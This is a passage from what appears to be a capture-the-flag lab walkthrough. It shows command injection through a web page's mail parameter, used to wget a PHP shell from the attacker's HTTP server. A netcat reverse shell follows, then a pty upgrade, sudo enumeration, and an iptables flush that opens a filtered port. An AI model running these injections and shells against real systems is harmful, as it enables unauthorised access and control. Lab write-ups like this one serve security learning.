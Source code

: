 <p>Now, we're ready to upload the file on Python SimpleHTTPServer. </p>

{% highlight bash%}
root@kali:~/web# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
{% endhighlight %}

<p>And we can use <b>wget</b> to download the shell on our victim machine. </p>

{% highlight bash %}
http://192.168.56.101:60080/?page=mailer&mail=wget%20192.168.56.102:8000/shell.php
http://192.168.56.101:60080/?page=mailer&mail=ls

eye.jpg index.php s13!34g$3FVA5e@ed sec.png shell.php uname.txt 
{% endhighlight %}

<p>Now start the netcat listener and navigate to the shell.php file. </p>

{% highlight bash %}
root@kali:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 59808
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 08:07:00 up 53 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
waldo    pts/0    tmux(642).%0     07:13   53:39   0.64s  0.64s irssi
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$

{% endhighlight %}

<p>And we're connected! Running <b>sudo -l</b> gives us information that we can run <b>iptables</b> as <b>www-data</b> and <b>vim</b> with certain file as <b>waldo</b> user. </p>

{% highlight bash %}
www-data@ubuntu:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf
    (ALL) NOPASSWD: /sbin/iptables
{% endhighlight %}

<p>Remember that <b>IRC</b> port that came up during the first scan? It was filtered, so flushing the iptables may allow us to connect. </p>

{% highlight bash %}
www-data@ubuntu:/$ sudo iptables -F
sudo iptables -F
{% endhighlight %}
